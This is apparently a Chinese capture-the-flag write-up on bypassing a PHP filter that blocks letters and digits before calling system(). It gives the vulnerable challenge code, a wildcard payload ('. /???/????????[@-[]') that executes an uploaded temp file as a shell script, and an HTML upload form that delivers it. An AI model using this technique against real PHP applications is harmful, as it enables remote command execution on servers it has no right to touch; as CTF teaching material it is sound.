


全局变量的应有（$FILE）

简单的说明一下$_FILE全局变量：$_FILE存放了我们上传文件信息，包含文件的名字，文件的大小，文件的类型，文件是否网络传输错误、文件内容。故当上传一个php脚本会被存储于$_FILE中

（存储的临时路径为/tmp/php?????? 前三位为php）

利用.或sh进行连接

因为字母被过滤了所以上传时使用payload:

 .%20/???/?????????

.%20/???/????????[@-[]   #若最后一个字符为大写可以使用

# 题目

``` php
<?php

error_reporting(0);
highlight_file(__FILE__);
$cmd=$_GET['cmd'];

if(!preg_match("/[a-z]|[0-9]/i",$cmd)){
    system($cmd);
}

?>
```


# 上传的html文件

``` html
<form method="post" enctype="multipart/form-data" action="题目网址/?cmd=. /???/????????[@-[]">
    <input type="file" name="file">
    <input type="submit" value="upload">
</form>
```

进入上传文件页面



并且进行抓包处理，通过cmd进行文件调用，然后在内容中进行命令执行（概率事件，因为占位符匹配时不一定第一时间就能匹配到该文件）


